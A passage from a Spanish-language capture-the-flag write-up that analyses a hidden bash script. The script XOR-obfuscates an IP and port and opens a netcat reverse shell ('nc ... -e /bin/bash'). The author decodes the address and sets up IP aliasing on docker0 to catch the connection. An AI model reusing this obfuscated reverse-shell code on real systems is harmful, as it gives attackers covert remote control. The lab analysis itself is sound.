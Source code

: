 Analizando el código, se ejecuta `netcat`, se envía el `stdout` al `/dev/null` y se ejecuta en segundo plano para no percibir la ejecución

~~~ bash
nc $g $h -e /bin/bash
~~~ 

Dado que `nc` recibe una IP y un puerto, podemos interpretar las variables `c` y `b` en una consola. Podemos traer el script a nuestra máquina y quitarle `&>/dev/null &` para ver a qué dirección IP se envía la conexión

> Archivo `life_copy.sh` 

~~~ bash
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

d=$((b))

e="nc"
f="-e"
g=$c
h=$d

$e $g $h $f /bin/bash
~~~

Si lo ejecutamos deberíamos ver a quién se envía la conexión
~~~ bash
bash life_copy.sh
(UNKNOWN) [172.17.0.186] 6068 (?) : No route to host
~~~


## IP Aliasing

Agregaremos una IP virtual a la interfaz `docker0` para que el contenedor interprete que `172.17.0.186` somos nosotros además de la IP `172.17.0.1`

~~~ bash
sudo ip addr add 172.17.0.186/16 dev docker0
ip addr | grep docker0                 

4: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
    inet 172.17.0.186/16 scope global secondary docker0
6: veth5af3a2f@if5: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
8: veth90e536c@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
~~~
